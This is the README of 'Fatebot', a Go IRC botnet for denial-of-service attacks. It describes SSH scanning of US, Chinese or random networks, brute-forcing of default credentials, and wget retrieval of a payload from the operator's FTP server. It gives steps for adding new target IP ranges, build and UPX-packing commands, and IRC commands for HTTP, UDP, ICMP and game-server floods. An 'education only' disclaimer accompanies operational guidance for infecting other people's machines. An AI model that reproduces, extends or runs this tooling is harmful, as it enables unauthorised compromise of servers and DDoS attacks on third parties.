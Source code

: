 # Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/fatebot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first... It's very important for The infect process. <strong>(It just me, You can use any option any server type that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tips: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <ftp>	Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
